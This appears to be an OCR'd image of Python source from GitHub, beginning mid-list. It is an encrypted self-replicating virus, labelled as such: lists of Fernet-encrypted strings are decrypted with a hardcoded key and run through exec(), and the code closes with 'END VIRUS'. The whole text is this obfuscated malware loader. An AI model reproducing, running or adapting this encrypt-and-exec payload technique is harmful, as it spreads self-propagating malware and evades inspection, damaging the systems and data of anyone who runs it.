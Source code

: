 ```py
ToTJAFVxgFFKHsJN3la7nVhDFyPtazBM33CSau5GTT_XXiQ90LN9yiFTTA8ZxV4V2dtoN0GVb_Tc2SD-6ALwyXSlqs=',b'gAAAAABf2NGYxEN9Y_Lu5tV-LaS1UL39p5kxAGC_kinY8RS7zCX8wD_ElxORL3wYMUUB1N1kyezXh2GHRwK1HihWmDQwVyTlZA==',b'gAAAAABf2NGYiAFW2-XdfYP8dp38Or72UT8a7W0t2BlZn0hia0DSKvslWY5j7QM-mcMbdTMiTd3n7ZxrC9MjGj9WXWHLekEZWwnRLUxxsidEH_Jw7TyduOM=',b'gAAAAABf2NGYiIPWmoRd937mAK3Rh1GHB-F5Qv11MmSF_dEtwU8EleYniI_fvID0BKiydT3jdK4LtNAiH4SBSz5G-zT4Z_2QNuBVPE-zafKcYY_Q6qLOcTs=',b'gAAAAABf2NGY8JdqRBH3OwXg6vK4L0ZPSvElA9A651xNPrOLxQ7WYnn0rt7KeMnmsTc1ZLOijaIi3FwSm_AWjdQ3-1XtDcefrA==',b'gAAAAABf2NGYWeFWPd961PMMC0T9FKa-5-AcBMvaspM5nsMVSG8sSeeEqHChbkoZj8pqPDQqtW6xNhsc2F-7Qe6dR4WvtXIT7w==',b'gAAAAABf2NGYBqnGf-YUWZIp5RTHl520oSyVOLxzBBczhpokald9yfSCuaT8R0xtv0EBGqWiUM1ZlfD_2PC9RiTFYDs3fSzytLmfq9docAB95ASt6iuYZss=',b'gAAAAABf2NGY3gP6RRkfTQyX4wCN8683al7xe74weuIzwYkFS1Qr5iV4nZj_PWpukcLarwFIjBq_xUIlCsxgv5XWAICxSp7YOixcKemAaIPFjtYrFWAUGY8=',b'gAAAAABf2NGYmZbMweMHfA4RS_GIbP_vtWZbrwnbeQuBt6BmqpzlR4MF8HZwpP0ZCRO6sS4v9rNAnuxtwWMQZrvVoD4uMaXfJA==',b'gAAAAABf2NGYwQwPxc1Tti2FWa3we-ZCaFDbq1_6_DKCzIhnAw__p9ZreJn7H7TKrTjy_eP5bO2kRWopLV2GaF-VfRPeWZPPhJsB6DYjSSQ_3Kny4KcNukY=',b'gAAAAABf2NGYN1akoPovYlprNiNUefA3Kw1uJQCLB0xlJJU1jXPmlHJAI8hIEVhCYdxRfH9q_GtZc50i6zh5PZrVP8KQM8xxsM4rtr9CCkH3RJyGxlmEZt9ZpocI8gch2OjzbBJn1Mgn',b'gAAAAABf2NGYEwANJ4-YehUGPaOToO_VAzmknnjSi4fnsvorq2u3B9GPCM1ESTQIVzUPEt-UWOcYd8odAve1RGha0LwoZOTpcd0-aTqGIUQhEr01sx63s2g=',b'gAAAAABf2NGYnBoflT7dvM2HgR-_WMJ8CMr4g8hu9MLgJU-ioUJneMoKlMs8iCgOAB_iwzHA16Bd5uV6vEsOISonK5c933Dmrw==']
decryption_encrypted_self_replicating_virus_encrypted = [b'gAAAAABf2cVaEh1gDoLzLA1pXD1_hlP61-dI60FYy0EErcGZYOCKpHxRkppTbfwMnpVI2j7bZTqMVvy-F6lq5qUOzub3rwv-yA==',b'gAAAAABf2cVasNCbGziSxhXSdf5kju5PGxtCzx6VogoIimybigzyDyaSIx3ccwxQtku_LrUydLnal_xHN5YKkUeSxhg8HcMNjMlj7bDNNfEag5rTgqhdTjNSB0yoDZwiFFOdMxfHQkzS',b'gAAAAABf2cVa1AmbtO_FK2thrt6Dt6NxwXc7HVV3KAsRALLDabUAaeWFtl6IpBD1UA_emfWiqZkPZM9Ealp96_AbjlSJLLUgDg==',b'gAAAAABf2cVasTBnohbon-IK9161SlWkoJZD5sCjLafmi_uRZUH1QeNfD9qqNa8p-ES5lw8wbuplt0bGCnro0fqOqJt_EVyoWN2cOpvC3VEtZ6rZABea37c=',b'gAAAAABf2cVaNa-LchScZBTpzIN7FN3Xg1WKKiTx3Fx92xoOPeoiSd2Kp4YnjxI_Rbq-xGfwK6aHLVen176tjsSv1f1MYas1hw==',b'gAAAAABf2cVaq2Mg3_YRnpm2uRiV3He658yfDP5zdZrCo_CDL9-8I_o5MrbznThn8K_z_zOvoKuCgSHJp501OJVLcP9U0I_BLIYFCRANL8apfreomlq3EYg=',b'gAAAAABf2cVaWYjg9RB0mBlYeYvhpP_U3lbZmuSeqGkykfF6yrYBEEtdZam2cdVsxkmHQWCaNhvDBN4Y12u_c7r92ME2xaY2EPIZYsm6yWBv2i-cpg-Wpi9huoIeOxp-eW2luvxRNc2QB6YNA1bzhDLI91G9BUTtrxX3pG3IQFFOyET1Kj3BNN0=',b'gAAAAABf2cVaNNcO33_YpWr6jo0G9nQfEmLEbu8hpZm6BN55rszsSLEPnExz-UQHNiHbR4Q7frZRdqVq8d9UovuDsDOMIUJhE_EAMUWYA8Rha3x-bqC5JCF9KbCsGtg5tkFoJAR8N6P9',b'gAAAAABf2cVaorZLT8h7DODduYG8zgJG_SlT_EMkAwkhfoIC8OIUWD-Dh5gMEx4oFldGmtqCH7ZJUhUBA2I3YJ6Yxd6ZHBrJj9JDbAz9x_nqx7VWHQKw6vSQ99DjCX_mwgyv5b3i9qOV5jguvthuqIK3jUHm3aQvIg==',b'gAAAAABf2cVan3cfAxWRddNldM1S-HykRgO79B14xacqgPSrWO3wXXrMKOmEMkmTRq468IFk1nhGOD6B2OdKSUM68GbJYDVVbQ==',b'gAAAAABf2cVaS7HN6bEdc2piHlFLR35C3Cw4yQLaV6lEuAXIX0VB-7XOyoGE9OG2wTbxFruOfIKwM0jZD1TpGw2y707DbeRhs3KbHRRO4jg8F5YB5058W2U=',b'gAAAAABf2cVaW--rQNAlweROLJHAbDCsIv3pKoNLxzqc8Dj-no45d4RVSBMcu2VvTtWYE6Nwr3AYfoH-pW3_iqbidmAY8lmfy1dU1aI4dXXKBZq1OzrqU8naxOsOEnHak1L4hHCJDrqN',b'gAAAAABf2cVa7Mks3vLwEEzIW5wuuRdA6__KoNrkgfH3XF264sttW4YAgi9tF_Iv9X_q3eHd2F1EmmeIpVgn4R7oN3r-xFyQWA==']
##### END ENCRYPT #####

from cryptography.fernet import Fernet

decrypted_payload = []

def decrypt_payload():
  fernet = Fernet(b'XqNcItZCraxZZQPZeZQeCWnOqx_MZcVmCdjK-IqIlhc=')
  for elem in decryption_encrypted_self_replicating_virus_encrypted:
    decrypted_payload.append((fernet.decrypt(elem)).decode())

decrypt_payload()
exec("".join(decrypted_payload))

###### END VIRUS ######

```
